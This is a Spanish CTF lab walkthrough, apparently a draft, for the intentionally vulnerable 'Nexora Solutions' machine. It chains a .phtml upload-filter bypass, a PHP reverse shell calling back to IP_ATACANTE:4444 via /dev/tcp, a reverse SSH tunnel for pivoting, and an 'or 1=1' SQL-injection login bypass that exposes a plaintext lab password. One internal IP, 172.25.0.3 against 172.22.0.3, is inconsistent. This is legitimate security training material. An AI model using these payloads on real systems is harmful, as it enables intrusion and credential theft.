# Walkthrough — Nexora Solutions

**Plataforma:** Pwnoteca  
**Dificultad:** Intermedia  
**Entorno:** Ubuntu 24.04 · Apache/PHP · MariaDB · SSH · Docker  
**Objetivo:** llegar al servidor interno y comprobar la obtención de privilegios `root`.

> ⚠️ **SPOILERS:** resolución de un laboratorio intencionadamente vulnerable. Todos los comandos deben ejecutarse únicamente contra la instancia de Nexora que has desplegado para practicar.

> **Estado de la guía:** borrador de verificación. Las capturas se incorporarán conforme se compruebe cada fase. Los pasos marcados como «por verificar» no deben presentarse como resultados ya obtenidos.

## 1. Reconocimiento inicial

Comenzamos realizando un escaneo de puertos sobre la máquina objetivo para identificar los servicios que se encuentran expuestos.

Para ello utilizamos **Nmap**, una herramienta de reconocimiento de redes que permite descubrir puertos abiertos y analizar los servicios disponibles en un sistema.

### 1.1. Escaneo de puertos

Ejecutamos el siguiente comando:

```bash
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 127.0.0.1
```

**Parámetros utilizados:**

- `-p-`: escanea todos los puertos TCP (1-65535).
- `-sS`: realiza un escaneo TCP SYN.
- `--min-rate 5000`: establece una tasa mínima de envío de 5000 paquetes por segundo.
- `--open`: muestra únicamente los puertos abiertos.
- `-vvv`: aumenta el nivel de detalle de la salida.
- `-n`: evita la resolución DNS.
- `-Pn`: omite la fase de descubrimiento del host y lo considera activo.

### 1.2. Análisis de resultados

Durante el reconocimiento identificamos el **puerto 8080/TCP abierto**, que corresponde al servicio web de Nexora Solutions.

Es importante tener en cuenta que estamos realizando el escaneo sobre nuestra propia máquina (`127.0.0.1`). Por ello, es posible encontrar otros puertos abiertos pertenecientes a servicios del sistema anfitrión o a otros contenedores Docker.

En este laboratorio nos centraremos exclusivamente en el puerto **8080**, que es el que nos interesa analizar.

**Captura del escaneo:**



### 1.3. Acceso al servicio web

Una vez identificado el puerto 8080, accedemos al servicio desde nuestro navegador utilizando la siguiente dirección:

**http://127.0.0.1:8080**

Al acceder, encontramos la página corporativa de **Nexora Solutions**, una empresa ficticia dedicada a ofrecer servicios y soluciones tecnológicas.

La web dispone de diferentes apartados, como información sobre la empresa, sus servicios, empleados y contacto.

**Captura de la página web:**



### 1.4. Conclusión del reconocimiento

Tras el reconocimiento inicial, hemos identificado un servicio web accesible y comprobado su funcionamiento desde el navegador.

El siguiente paso será realizar una **enumeración de directorios con Gobuster** para descubrir posibles rutas adicionales que puedan resultar interesantes durante el análisis de seguridad.
## 2. Enumeración de directorios con Gobuster

Tras identificar el servicio web de Nexora Solutions, el siguiente paso consiste en realizar una enumeración de directorios para descubrir rutas que no se encuentran visibles durante la navegación habitual.

Para ello utilizaremos **Gobuster**, una herramienta que permite descubrir directorios y archivos mediante ataques de diccionario.

### 2.1. Fuzzing de directorios

Ejecutamos Gobuster contra el servidor web utilizando un diccionario de rutas comunes:

```bash
gobuster dir -u http://127.0.0.1:8080/ -w /usr/share/wordlists/dirb/common.txt -t 20
```

**Parámetros utilizados:**

- `dir`: activa el modo de enumeración de directorios.
- `-u`: especifica la URL del servidor objetivo.
- `-w`: indica el diccionario que utilizaremos.
- `-t 20`: establece 20 hilos para realizar las peticiones.

> Si utilizamos otra máquina atacante, sustituiremos `127.0.0.1` por la dirección IP del servidor objetivo. La ruta del diccionario también puede variar según la distribución Linux.

### 2.2. Captura de la enumeración

En la siguiente captura podemos observar los resultados obtenidos mediante Gobuster, destacando los directorios `/upload/` y `/uploads/`.



**Conclusión:** hemos identificado un sistema de subida de archivos y su directorio de almacenamiento. El siguiente paso será analizar el funcionamiento del formulario y comprobar sus mecanismos de validación.

### 2.3. Análisis de resultados

Entre los directorios encontrados destacan dos rutas especialmente interesantes:

- **`/upload/`**: contiene un formulario que permite subir archivos al servidor.
- **`/uploads/`**: directorio destinado al almacenamiento de los archivos subidos.

Estas rutas resultan especialmente relevantes desde el punto de vista de la seguridad, ya que podrían permitir introducir archivos en el servidor y posteriormente acceder a ellos mediante HTTP.

La enumeración de directorios no confirma por sí sola la existencia de una vulnerabilidad, pero nos permite identificar un posible punto de entrada que analizaremos en las siguientes fases.


## 3. Explotación de la subida de archivos

Tras realizar el fuzzing de directorios con Gobuster, hemos descubierto dos rutas especialmente interesantes: `/upload/` y `/uploads/`.

Comenzaremos investigando el funcionamiento del formulario de subida de archivos para comprobar si existe alguna vulnerabilidad que nos permita obtener acceso al servidor.

### 3.1. Análisis del formulario de subida

Accedemos desde el navegador a la siguiente dirección:

**http://127.0.0.1:8080/upload/**

Nos encontramos con un formulario que permite seleccionar un archivo de nuestro equipo y subirlo al servidor.

Vamos a comprobar si este formulario aplica algún tipo de restricción sobre los archivos que podemos subir.

### 3.2. Comprobación de restricciones

Para comenzar, intentaremos subir un archivo con extensión `.php`.

Podemos crear un archivo de prueba llamado `prueba.php` con el siguiente contenido:

```php
<?php
echo "Prueba de ejecución PHP";
?>
```

Al intentar subirlo, el servidor devuelve el siguiente mensaje:

**«Error: los archivos PHP no están permitidos.»**

Esto nos indica que existe un mecanismo de validación que impide subir archivos con extensión `.php`.

Sin embargo, esta restricción presenta una debilidad: únicamente comprueba esa extensión concreta, sin contemplar otras extensiones que también pueden ser interpretadas por PHP.

**Captura del archivo rechazado:**



### 3.3. Bypass de la restricción mediante PHTML

Una forma de intentar eludir esta validación consiste en utilizar la extensión `.phtml`.

Esta extensión puede ser interpretada como código PHP por servidores Apache que tengan configurado el manejador correspondiente.

En nuestro caso, el formulario bloquea expresamente los archivos `.php`, pero no los archivos `.phtml`.

Para comprobarlo, renombramos nuestro archivo de prueba:

```bash
mv prueba.php prueba.phtml
```

Volvemos al formulario y subimos `prueba.phtml`.

Esta vez, el servidor acepta el archivo y muestra el mensaje:

**«Archivo subido correctamente.»**

Ahora podemos comprobar si el servidor interpreta su contenido accediendo a:

**http://127.0.0.1:8080/uploads/prueba.phtml**

Si aparece el mensaje `Prueba de ejecución PHP`, habremos confirmado que es posible ejecutar código PHP mediante el sistema de subida de archivos.

**Captura del bypass:**



### 3.4. Preparación de una reverse shell

Una vez confirmada la ejecución de código PHP, intentaremos obtener una conexión inversa desde el servidor hacia nuestra máquina atacante.

Para ello utilizaremos una **reverse shell**, que permite obtener acceso a una terminal del sistema comprometido mediante una conexión iniciada desde la víctima.

Creamos un archivo llamado `shell.phtml` con el siguiente contenido:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/IP_ATACANTE/4444 0>&1'");
?>
```

Debemos sustituir `IP_ATACANTE` por la dirección IP de nuestra máquina atacante que sea accesible desde el contenedor Docker.


### 3.5. Establecimiento de la conexión inversa

Antes de ejecutar el archivo, debemos preparar nuestra máquina atacante para recibir la conexión.

Abrimos una terminal y ponemos Netcat en escucha por el puerto `4444`:

```bash
nc -lvnp 4444
```

Con Netcat esperando conexiones, volvemos al formulario de Nexora y subimos el archivo `shell.phtml`.

Una vez subido correctamente, accedemos desde el navegador a:

**http://127.0.0.1:8080/uploads/shell.phtml**

Al visitar esta dirección, el servidor interpreta el código PHP y ejecuta el comando que intenta establecer una conexión inversa con nuestra máquina atacante.

Si todo funciona correctamente, recibiremos una shell en la terminal donde tenemos Netcat en escucha.

### 3.6. Comprobación del acceso obtenido

Una vez establecida la conexión, ejecutamos:

```bash
whoami
```

El resultado esperado es:

```text
www-data
```

También podemos obtener información adicional mediante:

```bash
id
hostname
```

Comprobamos que hemos conseguido ejecutar comandos dentro del contenedor que aloja la web pública de Nexora Solutions.

Aunque todavía no disponemos de privilegios administrativos, **hemos obtenido acceso inicial al sistema**.

**Captura de la reverse shell:**



### 3.7. Conclusión

Hemos conseguido aprovechar una vulnerabilidad en el mecanismo de subida de archivos del servidor.

La aplicación únicamente comprueba si el archivo tiene extensión `.php`, permitiendo utilizar otras extensiones interpretables por el servidor, como `.phtml`.

Esto nos ha permitido subir un archivo con código PHP, ejecutarlo desde el navegador y establecer una conexión inversa con nuestra máquina atacante.

El siguiente paso será realizar una enumeración del sistema comprometido y analizar su conectividad de red para descubrir posibles objetivos internos.

## 4. Reconocimiento de la red interna y pivoting

En esta fase investigaremos la infraestructura interna de Nexora Solutions para identificar otros sistemas accesibles desde el servidor comprometido.

Posteriormente, utilizaremos una técnica de **pivoting mediante un túnel SSH inverso** para acceder a una intranet que no se encuentra expuesta directamente al exterior.

### 4.1. Enumeración de las interfaces de red

Comenzamos identificando las direcciones IP asignadas al servidor comprometido.

Desde nuestra reverse shell ejecutamos:

```bash
hostname -I
```

Observamos que el servidor dispone de dos direcciones IP:

```text
172.23.0.2
172.22.0.2
```

Esto nos indica que el servidor web está conectado a dos redes diferentes.

Podemos obtener información adicional sobre las rutas de red mediante:

```bash
cat /proc/net/route
```

La existencia de varias interfaces resulta interesante, ya que podría indicar que el servidor web tiene acceso a una red interna utilizada por otros sistemas de Nexora Solutions.

En nuestro laboratorio identificamos la siguiente distribución:

| Dirección IP | Función |
|---|---|
| `172.23.0.2` | Interfaz del servidor web en la red externa |
| `172.22.0.2` | Interfaz del servidor web en la red interna |

> Las direcciones IP pueden variar dependiendo de cómo Docker configure las redes al desplegar el laboratorio.

### 4.2. Descubrimiento de servidores internos

Ahora investigaremos si existen otros equipos accesibles a través de la red interna.

Como estamos trabajando desde una reverse shell, es posible que no tengamos disponibles herramientas de reconocimiento como Nmap.

Sin embargo, podemos comprobar la conectividad TCP utilizando una funcionalidad de Bash: `/dev/tcp`.

Ejecutamos el siguiente bucle:

```bash
for i in $(seq 1 20); do
    for puerto in 22 80; do
        timeout 1 bash -c "echo > /dev/tcp/172.22.0.$i/$puerto" 2>/dev/null &&
        echo "[+] 172.22.0.$i:$puerto abierto"
    done
done
```

**Explicación del comando:**

- `seq 1 20`: genera los números del 1 al 20 para comprobar distintas direcciones IP.
- `for puerto in 22 80`: comprueba los puertos SSH y HTTP.
- `/dev/tcp/`: permite intentar establecer conexiones TCP mediante Bash.
- `timeout 1`: limita cada intento a un segundo.
- `2>/dev/null`: oculta los mensajes de error.
- `echo "[+]"`: muestra las conexiones que se han establecido correctamente.

Durante el reconocimiento encontramos los siguientes servicios:

```text
[+] 172.22.0.2:80 abierto
[+] 172.22.0.3:22 abierto
[+] 172.22.0.3:80 abierto
```

La dirección `172.22.0.2` corresponde al propio servidor web comprometido.

Sin embargo, descubrimos otro equipo en la dirección **`172.22.0.3`**, que tiene abiertos dos puertos:

- **22/TCP:** servicio SSH.
- **80/TCP:** servicio HTTP.

Esto nos indica que existe otro servidor dentro de la red interna.

El servicio HTTP resulta especialmente interesante, ya que podría alojar una aplicación interna de la organización.

**Captura del reconocimiento:**



### 4.3. ¿Por qué necesitamos realizar pivoting?

En este momento conocemos la existencia de un servidor interno, pero tenemos un problema.

Nuestra máquina atacante no tiene acceso directo a la aplicación web alojada en `172.22.0.3:80` a través de la interfaz pública del laboratorio.

Sin embargo, el servidor `web-01`, que ya hemos comprometido, sí puede comunicarse con ese equipo.

Por tanto, necesitamos utilizar **`web-01` como intermediario** para alcanzar la aplicación interna.

Esta técnica se conoce como **pivoting**.

El objetivo es aprovechar un sistema comprometido que tiene acceso a varias redes para alcanzar otros recursos que no son directamente accesibles desde el punto de entrada inicial.

Nuestra situación actual es la siguiente:

```text
           MÁQUINA ATACANTE
                    |
                    |
               Red externa
                    |
                    v
             ┌─────────────┐
             │   WEB-01    │
             │             │
             │ 172.23.0.2  │
             │ 172.22.0.2  │
             └──────┬──────┘
                    |
                    |
                Red interna
                    |
                    v
             ┌─────────────┐
             │  SERVER-02  │
             │             │
             │ 172.22.0.3  │
             │             │
             │ SSH: 22     │
             │ HTTP: 80    │
             └─────────────┘
```

Nuestro objetivo será conseguir que el navegador de nuestra máquina atacante pueda acceder a la aplicación HTTP de `server-02` utilizando la conexión que ya tenemos con `web-01`.

Para ello utilizaremos un **túnel SSH inverso**.

### 4.4. Preparación del túnel SSH inverso

Para establecer el túnel necesitamos que nuestra máquina atacante disponga de un servidor SSH en funcionamiento.

En sistemas Linux que utilizan `systemd`, podemos iniciarlo mediante:

```bash
sudo systemctl start sshd
```

> El nombre del servicio puede variar según la distribución. Por ejemplo, en algunas distribuciones se denomina `ssh`.

Con el servidor SSH preparado, necesitamos identificar una dirección IP de nuestra máquina atacante que sea accesible desde el contenedor comprometido.

En nuestro entorno Docker, el servidor web está conectado a una red externa cuya puerta de enlace es:

```text
172.23.0.1
```

Esta dirección permite alcanzar la máquina anfitriona desde el contenedor Docker.

Podemos consultar las rutas del contenedor mediante:

```bash
ip route
```

Si queremos verificar las direcciones de las redes Docker desde el anfitrión, también podemos utilizar:

```bash
docker inspect -f '{{range $nombre, $red := .NetworkSettings.Networks}}{{println $nombre $red.Gateway}}{{end}}' web-01
```

Obtuvimos:

```text
01-nexora-solutions_external 172.23.0.1
01-nexora-solutions_internal invalid IP
```

La red interna no dispone de una puerta de enlace válida hacia el exterior, pero esto no impide la comunicación entre sus contenedores.

La dirección que utilizaremos para establecer el túnel será **`172.23.0.1`**.

> Esta dirección corresponde a la máquina que ejecuta Docker en nuestro entorno. Si el atacante utiliza otro equipo, deberá emplear una dirección de su máquina que sea alcanzable desde `web-01`.

### 4.5. Creación del túnel SSH inverso

Con el servidor SSH de nuestra máquina atacante funcionando, podemos establecer el túnel.

Desde la reverse shell del servidor comprometido ejecutamos:

```bash
ssh -N -o ExitOnForwardFailure=yes -R 127.0.0.1:8081:172.22.0.3:80 usuario_atacante@172.23.0.1
```

Debemos sustituir `usuario_atacante` por un usuario válido del equipo donde está funcionando el servidor SSH.

Este comando establece una conexión SSH desde `web-01` hacia nuestra máquina atacante y configura un túnel inverso.

**Explicación de sus parámetros:**

| Parámetro | Función |
|---|---|
| `ssh` | Inicia una conexión SSH. |
| `-N` | No ejecuta comandos remotos; mantiene la conexión para el túnel. |
| `-o ExitOnForwardFailure=yes` | Finaliza la conexión si no puede establecerse el reenvío solicitado. |
| `-R` | Configura un reenvío de puertos remoto o túnel inverso. |
| `127.0.0.1:8081` | Dirección y puerto donde escuchará el túnel en la máquina atacante. |
| `172.22.0.3:80` | Dirección y puerto de la intranet a la que queremos acceder. |
| `usuario_atacante@172.23.0.1` | Usuario SSH y dirección del equipo atacante. |

La diferencia fundamental respecto a un túnel SSH convencional es que **la conexión SSH se inicia desde el servidor comprometido hacia el atacante**.

De esta forma, no necesitamos conocer todavía las credenciales SSH del servidor interno.

La conexión se establece utilizando el cliente SSH de `web-01` y el servidor SSH de nuestra propia máquina.

Una vez autenticados, la terminal permanece ocupada manteniendo el túnel abierto.

**Captura del túnel:**



### 4.6. Acceso a la intranet

Con el túnel establecido, abrimos nuestro navegador y accedemos a:

**http://127.0.0.1:8081**

Aunque estamos utilizando una dirección local, las peticiones HTTP se envían a través del túnel SSH.

El recorrido de la conexión es el siguiente:

```text
              MÁQUINA ATACANTE
                      |
                      |
                  Navegador
              127.0.0.1:8081
                      |
                      |
             TÚNEL SSH INVERSO
                      |
                      |
                      v
               ┌─────────────┐
               │   WEB-01    │
               │ 172.22.0.2  │
               └──────┬──────┘
                      |
                      |
                 Red interna
                      |
                      v
               ┌─────────────┐
               │  SERVER-02  │
               │ 172.22.0.3  │
               │  HTTP :80   │
               └─────────────┘
                      |
                      v
                INTRANET NEXORA
```

**¿Qué sucede exactamente cuando accedemos a `127.0.0.1:8081`?**

1. El navegador envía una petición HTTP al puerto local `8081`.
2. El servidor SSH de la máquina atacante recibe esa conexión y la introduce en el túnel.
3. La conexión SSH transporta los datos hasta `web-01`.
4. El cliente SSH de `web-01` establece una conexión con `172.22.0.3:80`.
5. La intranet recibe la petición y devuelve su respuesta.
6. La respuesta regresa por el mismo túnel hasta el navegador de la máquina atacante.

De esta manera conseguimos visualizar la intranet **sin publicar directamente el puerto 80 del servidor interno**.

Al acceder encontramos una página de inicio de sesión perteneciente a la intranet de Nexora Solutions.

**Captura de la intranet:**



### 4.7. Conclusión

Durante esta fase hemos conseguido descubrir y acceder a un servicio interno que no estaba expuesto directamente a través de la web pública del laboratorio.

Para ello hemos realizado las siguientes acciones:

1. Identificamos las interfaces de red del servidor comprometido.
2. Descubrimos un segundo equipo mediante la enumeración de puertos internos.
3. Comprobamos que el servidor interno ofrece servicios HTTP y SSH.
4. Utilizamos `web-01` como intermediario para alcanzar la red interna.
5. Establecimos un túnel SSH inverso hacia nuestra máquina atacante.
6. Accedimos a la intranet desde el navegador mediante `127.0.0.1:8081`.

**El pivoting ha sido realizado correctamente.**

Ahora tenemos acceso a la aplicación web interna de Nexora Solutions, que analizaremos en la siguiente fase para identificar posibles vulnerabilidades de inyección SQL.

## 5. Explotación de SQL Injection en la intranet

Una vez establecido el túnel SSH inverso, podemos acceder a la intranet de Nexora Solutions mediante la dirección:

**http://127.0.0.1:8081**

Nos encontramos con un formulario de autenticación que solicita un usuario y una contraseña.

En esta fase analizaremos el formulario para comprobar si es vulnerable a una **inyección SQL (SQL Injection)**.

### 5.1. Análisis del formulario de autenticación

El formulario solicita dos datos:

- **Usuario:** nombre de la cuenta.
- **Contraseña:** clave de acceso correspondiente.

Una vulnerabilidad SQL Injection se produce cuando una aplicación incorpora datos introducidos por el usuario directamente en una consulta SQL sin realizar una validación o parametrización adecuada.

Esto puede permitir modificar el comportamiento de la consulta y, en determinadas circunstancias, eludir los mecanismos de autenticación.

### 5.2. Explotación de SQL Injection

Introducimos el siguiente payload en el campo de usuario:

```sql
admin ' or 1=1-- -
```

En el campo de contraseña introducimos cualquier valor.

**Captura del payload introducido:**



A continuación, pulsamos **Iniciar sesión**.

La aplicación procesa nuestra entrada y nos permite acceder al panel administrativo sin conocer las credenciales del administrador.

### 5.3. Explicación de la vulnerabilidad

El formulario construye una consulta SQL utilizando los valores introducidos por el usuario.

Nuestro payload modifica la condición de autenticación:

```sql
OR 1=1
```

Esta expresión siempre es verdadera.

Además, utilizamos:

```sql
-- -
```

Para comentar el resto de la consulta, evitando que se compruebe la contraseña.

De esta manera conseguimos alterar la lógica de autenticación y acceder al sistema.

### 5.4. Acceso al panel administrativo

Una vez explotada la vulnerabilidad, accedemos al panel interno de Nexora Solutions.

En él encontramos un **directorio de usuarios de la organización**.

El listado contiene información sobre las cuentas registradas:

- Nombre de usuario.
- Nombre completo.
- Departamento.
- Rol dentro de la organización.
- Contraseña.

Uno de los problemas de seguridad más importantes es que las contraseñas aparecen almacenadas y mostradas en texto claro.

**Captura del panel y listado de usuarios:**



### 5.5. Identificación del usuario analista

Al examinar el listado, encontramos varios usuarios pertenecientes a diferentes departamentos.

Sin embargo, destaca una cuenta concreta:

| Campo | Valor |
|---|---|
| Usuario | `analista` |
| Departamento | Infraestructura |
| Rol | Administrador de sistemas |
| Contraseña | `AnalistaLab2026!` |

El rol de administrador de sistemas nos indica que esta cuenta podría estar relacionada con la administración de los servidores internos.

Recordamos que durante el reconocimiento de la red interna descubrimos que el servidor `172.25.0.3` tenía abierto el puerto **22/TCP**, correspondiente al servicio SSH.

Por tanto, las credenciales obtenidas podrían permitirnos acceder al sistema operativo del servidor interno.

### 5.6. Conclusión

Mediante una vulnerabilidad SQL Injection hemos conseguido eludir el mecanismo de autenticación de la intranet.

